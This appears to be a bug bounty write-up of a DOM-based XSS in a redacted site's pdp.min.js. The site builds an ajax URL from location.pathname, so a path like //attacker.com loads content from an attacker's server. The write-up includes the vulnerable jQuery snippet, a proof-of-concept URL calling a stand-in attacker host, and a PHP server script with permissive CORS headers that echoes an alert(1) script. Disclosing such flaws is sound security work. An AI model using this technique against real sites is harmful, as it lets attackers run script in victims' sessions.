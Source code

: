 I was working on a private program which i cannot disclose

I checked the js file by the way when I checked the request. Found a suspicious piece of code

**www.xxxxx.com**   domain 

**/xxxxxxxxx/**    path

https://www.xxxxx.com/xxxxxxxxx/pdp.min.js

Vuln code

![Image failed to load
e](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t33.png)

ajax Get request response write to page

![Image failed to load
e](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t44.png)

Normal request looks like this

Visit this site

https://www.xxxxx.com/xxxxxxxxx

ajax will make such a request

https://www.xxxxx.com/xxxxxxxxx/showProductRedemption?productCode=263625


      var prefix = location.pathname;
      var url = prefix + "/showProductRedemption?productCode=" + vpCode;
                $.ajax({
                    url: url,
                    type: "GET",
                    dataType: "html",
                    success: function(res) {
                        PDP.AjaxResponse.showProductRedemption(res);
                    },
                    error: function(res) {
                        console.error(res);
                    }
                });


But ***location.pathname*** attackers can control

So when location.pathname is set to //attacker.com

The browser will go to attacker.com

This will visit the attacker's website to get their website content

**POC**

https://www.xxxxx.com//attacker.com/xxxxxxxxx

location.pathname is //attacker.com/xxxxxxxxx
```
//attacker.com = https://attacker.com
```
ajax will request https://attacker.com/xxxxxxxxx for the response content

Attackers just need to set up their own website content

After Ajax gets the response from the attacker's website, it will write xsspayload to the page

An example with php

    <?php
    header("Access-Control-Allow-Origin: *");
    header("Access-Control-Allow-Credentials: true");
    header("Access-Control-Request-Methods:GET, POST, PUT, DELETE, OPTIONS");
    
    echo '<script>alert(1);</script>';
    ?>



So when the user visits https://www.xxxxx.com//attacker.com/xxxxxxxxx

Will trigger this dom xss![Image failed to load
e](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t31.png)


Finally

![Image failed to load
e](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t20.png)

Thanks!
